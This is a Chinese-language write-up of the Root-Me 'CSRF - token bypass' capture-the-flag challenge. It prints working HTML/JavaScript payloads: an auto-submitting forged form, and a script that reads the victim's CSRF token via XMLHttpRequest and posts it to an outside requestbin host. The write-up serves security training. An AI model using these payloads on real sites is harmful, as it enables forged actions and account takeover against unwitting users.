

Root-Me [CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)
===

該題跟 CSRF - 0 protection 幾乎一樣，但是在 `Profile` 的部分有加上 Token 驗證。

## 解題關鍵
1. JavaScript

## 解題方法
該題的題目名稱應該很清楚了，就是要 bypass Token，簡單來說有三個想法，如下。
1. 嘗試直接使用之前的 Payload，遇過實際案例，頁面上有提供 Token，但實際上拿掉 Token 就繞過了...。
2. 嘗試加上使用者端的 Token，Token 沒有驗證來源，只要是資料庫上有啟用的 Token 都給過。
3. 透過惡意的 JavaScript 腳本，讓管理員請求附帶管理員的 Token。

看似第三種方式是比較穩健的，但還是直接嘗試把 Token 加上之前的 Payload 送出試試看吧。  
```HTML
<form name="attack" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data">
    <input id="token" type="hidden" name="token" value="d6bec364b1022175fd42a06f16a8a44d">
	<div class="form-group">
		<label>Username:</label>
		<input type="text" name="username" value="MksYi">
	</div>
		<br>		
	<div class="form-group">
		<label>Status:</label>
		<input type="text" name="status" value="on">
	</div>
		<br>	
	<button type="submit">Submit</button>
</form>
<script>document.getElementsByName("attack").submit()</script>
```

顯然沒有這麼簡單，不論 Token 是戴上使用者的，還是將 Token 直接拿掉都無法直接拿到 Flag，看樣子只剩下第三種方式，至於要如何拿到管理員的 Token 呢? 這就要得要有 JavaScript 基礎了，透過 `XMLhttpRequest` 來偷 Token，並把值存到請求的 input 上，就成功偽造一個惡意請求了，如下，該 Payload 與以上的瘦小許多，是因為我把 HTML 多餘，且不必要的標籤移除了，然後將 POST 的目標轉移到 `Requestsbin` 上，以便 Debug。

```HTML
<form name="attack" action="http://requestbin.fullcontact.com/12qlilf1/?action=profile" method="post" enctype="multipart/form-data">
    <input name="username" value="MksYi">
    <input name="status" value="on">
    <input id="token" type="hidden" name="token" value="">
</form>
<script>
    var r = new XMLHttpRequest();
	r.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
	r.send(null);
	var respone = r.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var get_token = groups[1];
	
    document.getElementById("token").value = get_token;
    document.attack.submit();
</script>
```

這邊遇到了一個問題，原先使用的 `Payload` 在 `Submit` 的部分為 `document.getElementsByName("attack")`，但一直不運作，最後發現可以直接使用 `document.attack.submit()` 這樣的方法，最後也確認終於有收到參數。



該地方讓我卡很久是在 JavaScript 的語法 `getElementById` 中的 `Element` 並沒有 `s` ...。

最後 `Payload` 只要將 `form` 的 `action` 改為 `Profile` 的網址即可，解決該題。

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)